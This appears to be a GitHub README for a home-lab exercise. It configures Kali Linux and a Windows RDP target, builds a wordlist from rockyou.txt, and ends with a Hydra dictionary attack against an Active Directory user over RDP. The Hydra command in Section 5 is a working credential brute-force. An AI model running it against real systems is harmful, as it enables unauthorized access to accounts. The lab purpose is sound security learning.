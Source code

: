 # Kali Linux


## 1. NAT Network Setup 

- Connect the Virtual Machine to the NAT Network to work in the safe environment.

https://github.com/user-attachments/assets/67a252dd-0141-466f-a16a-fb61e4151aa8


---


## 2. Linux IP Setup 

- Start Kali Linux in the Virtual Box.

- On the Home Screen right click on the Internet Option and Click on Double click on the **Edit connection**.

- On the bottom of the Network Connection interface click on the **setting** icon.

- Now on the **Editing Connection** interface click on **`IPv4`** in that interface change the **Method** from the "**Automatice (DHCP)**" to "**Manual**".

- Now click on "**Add**" and write the following:
 ```
  IP - 192.168.10.250 
```
```
 Netmask - 24
```
```
 Gateway - 192.168.10.1
```
```
 DNS Server 8.8.8.8 
```
 save this setting.

- Go to Home Screen of the Kali Linux and right click on the **Internet** icon and click on **Disconnect**
   it will stop internet access on the Machine.
  
- Once again on the Home screen click  right click on the **Internet** icon and click on **Connection**
  that is avaialble fot the PC it will start the internet access on the Machine.

- Now open the Terminal in the Linux and enter the command **`ip a`** it will show you the new IP Address you have entered.

- Now to check the that you are connected to the internet open Terminal and type command `ping 8.8.8.8` it will if everthing is correct      then there will be no packet loss and all packets will be sent and received .
   
- Now update the kali linux by the command `sudo apt-get update && sudo apt-get upgrade`.

https://github.com/user-attachments/assets/e31b0921-12fc-4316-8466-62d446e0728a


---


## 3. Target Machine Setup

- Start Target Machine and on start menu search **"This Pc"** and open **"Properties"**.

- Now scroll down on the settings and click on **"Advanced System Settings"**.

- Now on the **"System Properties"** and on the top right side of it click on the **"Remote"**.

- Now on that **"Allow remote connections to this computer"** and click on **"Select users"**.

- Now on the **"Remote Desktop Users"** interface click on **"Add..."**.

- Now write the name of the **"Users"** and and click on the **"Check Names"** and it will automatically add the name and save it.
  
https://github.com/user-attachments/assets/50394a04-ab92-481a-8f62-f2e182e52176


---


## 4. Password File Generation

- Open Terminal in kali and type command **`cd Desktop`** (`cd` command is used to change the directory,
   and `Desktop` is name of the directory)

- Now type following command:

- `mkdir ad-project` (`mkdir` this command is used to create a new directory and `ad-project` is directory name).

- `cd` (To get to back to home directory).

- `cd /usr/share` (To change the directory location to **usr/share** from **home** )

- `cd wordlists` (To get in the wordlists directory that is present in the **usr/share**)

- `ls` (This command is used to know about the lists files and directories in the current directory)

- Now type the command `cp rockyou.txt ~/Desktop/ad-project` (`cp` is used to copy files and directories,
  it duplicates the content of a source file or directory to a specified destination)

  In this `cp` to copy `rockyou.txt` is file name and `~/Desktop/ad-project` it is the loaction where the dupliacte
  content is copied.

- `clear` (This command is used to clear the Terminal window.)

- `cd` (When ever this command is used it will get you back to the home directory.)

- `cd Desktop/ad-project` (To get in the ad-project directory present in the Desktop directory.)

- `ls` (To check whether the copied file is present in the ad-project directory or not.)

  If the file is present then everthing is good or else there is some mistake you have done and it had
  been copied in the wrong directory.)

- `head -n 20 rockyou.txt > password.txt` (`head` command main purpose is to display the beginning of a file or data.)

  `-n` this option followed by an integer `20` to specify the number of lines to display, `rockyou.txt` is the name of file
  
  whose lines it will display, and  ` > password.txt` is a new file where the first 20 lines from "**rockyou.txt"** to**"password.txt"**

  is going to be copied.

- `ls` (To check the list whether the new **"passwrod.txt"** is saved or not.)

- `nano passwords.txt` (`nano` command is used to edit a `.txt` file)

- Now write the password for any of the Active Directory User in it and then press `CTRL+O` to save the `password.txt` file and
  press `CTRL+X` to exit from the nano editer.

https://github.com/user-attachments/assets/e2a092fc-5e40-4f08-a728-329b49eeb516


---


## 5. Dictionary Attack

- Open Terminal in Kali Linux and type follofwing command :

  `cd Desktop/ad-project` (To go to the location of ad-project directory)

  `ls` (To check the list of all the passwords.txt file )

-  Now type command `hydra -l jennyj -P passwords.txt rdp://192.168.10.100 -t 1` to start the password attack

  In this `hyda` is the tool used for dictionary attack and `-l` is used to input the login username and `-P` is used to input the  **"password.txt"** for the attack `rdp://192.168.10.100` is used to make **"Remote Desktop Connection"** with the given IP address 
 `-t` yo run TASKS number `1` of connects in parallel per target

- There you can see the result with login name and password for `jennyj` this is how you can use it for password cracking.

- You can try other Active Directory Users for the attack as shown in the below video.
-  
